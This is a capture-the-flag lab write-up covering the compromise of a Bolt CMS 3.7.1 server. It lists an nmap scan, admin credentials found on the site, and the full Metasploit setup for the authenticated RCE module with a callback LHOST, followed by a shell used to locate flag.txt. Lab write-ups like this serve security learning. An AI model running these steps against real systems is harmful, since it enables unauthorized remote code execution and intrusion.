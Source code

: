 Started with initial enum
```bash
nmap -sS 10.10.45.125
```
got 3 ports running:
- ssh -22
- http - 80
- http-alt -8000

nothing at 80 just a default ubuntu server page
at 8000 we got the bolt CMS website that we are going to penetrate
analysing the website we get the username "bolt" and Password "boltadmin123"
tried /admin and other endpoints but nothing found, then googled it and got that the admin login panel is at /bolt endpoint 
we as we have the username and password for the user we can just easily log into it and boom we are in it
got the version of bolt CMS it is running - 3.7.1
searched for  exploit but it is for a previous version, now trying the DB of metasploit

got an exploit there for the current version
```bash
exploit/unix/webapp/bolt_authenticated_rce
```

set up all the required details like LHOST, LPORT, RHOST, USERNAME, PASSWORD,etc
```bash
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set LHOST 10.17.12.148
LHOST => 10.17.12.148
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set RHOSTS 10.10.45.125
RHOSTS => 10.10.45.125
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set RPORT 8000
RPORT => 8000
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set USERNAME bolt
USERNAME => bolt
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set PASSWORD boltadmin123
PASSWORD => boltadmin123
```

and after setting it up we can now run it and hopefully we get a shell for it
```bash
msf6 exploit(unix/webapp/bolt_authenticated_rce) > run
```

boom we got a shell for it, now lets get the flag.txt
```bash
find / -name flag.txt
```

got the location and viewed the flag.txt

and we solve the lab boom !!
